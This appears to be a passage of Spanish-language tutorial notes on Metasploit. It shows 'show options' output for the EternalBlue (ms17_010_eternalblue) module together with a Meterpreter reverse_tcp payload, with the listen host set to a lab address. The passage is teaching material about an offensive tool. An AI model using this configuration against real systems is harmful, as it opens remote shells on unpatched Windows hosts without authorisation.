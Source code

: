 ```shell-session

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

---
Cuando se selecciona un módulo (Eternalblue por ejemplo), al hacer "show options vemos" el siguiente contenido:
```
msf exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```
